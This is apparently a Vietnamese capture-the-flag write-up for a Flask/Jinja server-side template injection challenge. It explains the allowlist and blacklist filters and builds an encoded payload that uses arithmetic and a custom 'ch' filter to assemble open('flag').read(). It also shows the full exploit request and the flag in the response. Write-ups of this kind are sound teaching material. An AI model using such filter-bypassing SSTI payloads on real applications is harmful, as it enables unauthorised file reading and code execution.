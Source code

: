 # super-secure-translation-implementation challenge

Khi mình làm đến challenge này thì thời gian cuộc thi cũng sắp hết. Đến khi kết thúc mình vẫn chưa giải ra, server vẫn chưa đóng nên mình vẫn cố giải quyết nó vì đây là thử thách liên quan đến SSTI
flask/jinja.

## Recon
Thử thách cung cấp một file docker có các routes như sau:
```
@server.route("/") => app.py 
@server.route("/<path>") => app.py if the resource is nonexistent
@server.route("/secure_translate/") => print(f"Payload parsed: {payload}") - payload parameter is user controlled input. Vulnerable to SSTI.
```
File docker cho thấy rằng tất cả các file đều nằm trong thư mục gốc của web, vì vậy chỉ cần điều hướng đến trực tiếp thông qua trình duyệt.

Trong `/check.py` có một allowList được sử dụng cho payload

`allowList = ["b", "c", "d", "e", "h", "l", "o", "r", "u", "1", "4", "6", "*", "(", ")", "-", "+", "'", "|", "{", "}"]
`
Do đó sử dụng một trong các kí tự không có trong list sẽ gây ra lỗi.

## Filter

1. Ngoài ra ứng dụng còn có bộ lọc jinja tùy chỉnh:

```
# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```

2. Thêm một số chuỗi khác trong blacklist

Trong `/filter.py` thêm một bộ lọc khác bằng cách đưa vào blacklist một số strings được chuyển đến eval: 
```
forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]
```

Ngoài ra, 4 ký tự đầu tiên không thể là "open" và "eval": 

```
if x[0:4] == "open" or x[0:4] == "eval":
  return "Not That Easy ;)"
```
Ứng dụng chỉ cho phép tối đa 161 kí tự, nhiều thế nên thôi tạm bỏ qua.

## Exploitation

Chỉ sử dụng các ký tự trong danh sách cho phép là không đủ để tạo ra payload khai thác, 
vì vậy phải làm thế nào để mở rộng bảng chữ cái của mình bằng cách sử dụng số học cơ bản và bộ lọc jinja để chuyển đổi chuỗi.
Trong jinja các biến có thể được sửa đổi bằng bộ lọc . Các bộ lọc được tách ra khỏi biến bởi một ký tự `|`  và có thể có các đối số tùy chọn trong dấu ngoặc đơn. 
Nhiều bộ lọc có thể được xâu chuỗi. Đầu ra của một bộ lọc là áp dụng cho tiếp theo. 

Ví dụ, {{ name|striptags|title }}sẽ xóa tất cả các thẻ HTML khỏi biến name và title-case và đầu ra sẽ xử lí như sau ( title(striptags(name))).

Trong python 'ch' filter trả về một kí tự dựa trên số ascii

```
>>> print(chr(103))
g
```
Trong thử thách này chỉ sử dụng được các chữ cái trong allowlist là : 1, 4, 6. Nhưng như thế là đủ vì mình có thể cộng trừ các số để thành một số phù hợp.

Payload của mình có dạng: `{{\ropen('flag').read()}}` (`/n` cũng khả thi)

tương đương với: 
```
{{((6%2b6)|ch%2b'o'%2b(111%2b1)|ch%2b'e'%2b(111-1)|ch%2b'("'%2b(46%2b1)|ch%2b(61%2b41)|ch%2b'l'%2b(111-14)|ch%2b(61%2b41%2b1)|ch%2b'"'%2b')'%2b46|ch%2b're'%2b(111-14)|ch%2b'd()')|e}}
```

Gửi requests và nhận được flag trong phần reponse:

```
GET /secure_translate/?payload={{((6%2b6)|ch%2b'o'%2b(111%2b1)|ch%2b'e'%2b(111-1)|ch%2b'("'%2b(46%2b1)|ch%2b(61%2b41)|ch%2b'l'%2b(111-14)|ch%2b(61%2b41%2b1)|ch%2b'"'%2b')'%2b46|ch%2b're'%2b(111-14)|ch%2b'd()')|e}} HTTP/2

Host: super-secure-translation-implementation.chals.damctf.xyz

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Dnt: 1

Upgrade-Insecure-Requests: 1

Sec-Gpc: 1

Te: trailers

.
.
.

HTTP/2 200 OK

Content-Type: text/html; charset=utf-8

Date: Tue, 09 Nov 2021 16:01:30 GMT

Server: gunicorn

Content-Length: 744

   <code>
   
      <p>dam{p4infu1_all0wl1st_w3ll_don3}
      
</p><a href="/">Take Me Home</a>

    </code>
```


Ref : [jinja filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#filters)


